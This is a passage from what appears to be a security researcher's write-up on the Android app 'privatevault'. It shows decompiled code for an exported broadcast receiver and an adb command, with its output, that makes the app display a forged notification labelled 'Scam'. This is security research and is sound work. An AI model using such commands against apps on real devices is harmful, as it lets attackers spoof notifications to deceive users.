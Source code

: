 In this way we can retrieve pins, passwords and any other secrets hidden by the application.

## Other general misconfiguration

Other than the vulnerabilities we listed above, the application has many other misconfigurations and bugs that do not pose a real threat to the application/user but still allow unintended actions to take place.

The exported `MyBroadcastReceiver`, for example, can be used to send customized download notifications to the user:

```java
public class MyBroadcastReceiver extends BroadcastReceiver {
    ...
    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        int intExtra = intent.getIntExtra("numCallbacks", -1);
        String stringExtra = intent.getStringExtra("notificationTitle");
        String stringExtra2 = intent.getStringExtra("notificationMessage");
        if (intExtra == 0) {
            boolean booleanExtra = intent.getBooleanExtra("serviceRunningForImages", false);
            this.serviceWorkingForImages = booleanExtra;
            if (booleanExtra && isInImagesActivity) {
                ...
            } else if (!booleanExtra && isInVideosActivity) {
                ...
            } else {
                this.serviceWorkingForImages = false;
                showDownLoadComplete(context, stringExtra, stringExtra2);
            }
        }
    ...
    void showDownLoadComplete(Context context, String title, String message) {
        NotificationCompat.Builder priority = new NotificationCompat.Builder(context, this.channelID).setSmallIcon(17301634).setContentTitle(title).setContentText(message).setSubText("You can view files now").setWhen(System.currentTimeMillis()).setAutoCancel(true).setDefaults(-1).setPriority(1);
        NotificationManager notificationManager = (NotificationManager) context.getSystemService("notification");
        if (Build.VERSION.SDK_INT >= 26) {
            notificationManager.createNotificationChannel(new NotificationChannel(this.channelID, this.channelName, 4));
        }
        notificationManager.notify(1, priority.build());
    }
```
We only have to interact with the correct intent (`serviceEnds`) and send every required parameter:

```bash
PS > .\platform-tools\adb.exe shell am broadcast -n com.techuz.privatevault/com.techuz.privatevault.service.MyBroadcastReceiver -a serviceEnds --ei numCallbacks 0 --ez serviceRunningForImages true --es notificationTitle "Scam" --es notificationMessage "0xbro-was-here"
Broadcasting: Intent { act=serviceEnds flg=0x400000 cmp=com.techuz.privatevault/.service.MyBroadcastReceiver (has extras) }
Broadcast completed: result=0
```
